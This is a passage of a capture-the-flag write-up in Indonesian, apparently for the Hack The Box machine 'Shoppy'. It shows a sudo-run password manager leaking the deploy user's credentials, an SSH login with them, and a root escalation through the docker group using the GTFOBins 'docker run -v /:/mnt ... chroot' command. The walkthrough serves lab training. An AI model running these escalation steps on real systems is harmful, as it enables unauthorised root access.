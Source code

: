 ### dan kita mendapatkan akses sudo untuk user deploy dan kita coba untuk menjalankan password-manager. dan kita mendapatkan informasi penting yang ada di password-manager dan membaca file "cat password-manager"
```terminal
Welcome to Josh password manager!Please enter your master password: SampleAccess granted! Here is creds !cat /home/deploy/creds.txtAccess denied! This incident will be reported !

Password: Sample
```

### kita coba kembali ke sudo privilege escalation dengan menggunakan "sudo -l". dengan command dibawah
```terminal
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

### kita berpindah ke ssh yang baru dengan menggunakan username dan password yang kita dapatkan.
```terminal
┌──(root㉿yupy)-[~]
└─# ssh deploy@10.10.11.180
deploy@10.10.11.180's password: 
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
$ whoami
deploy
$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
$ pwd
/home/deploy
```

### Privilege Escalation Post Exploitation: Root via Docker Escape menggunakan [GTFOBins Docker](https://gtfobins.github.io/gtfobins/docker/) dan kita coba untuk menjalankan command dibawah
```terminal
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
```terminal
$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
```
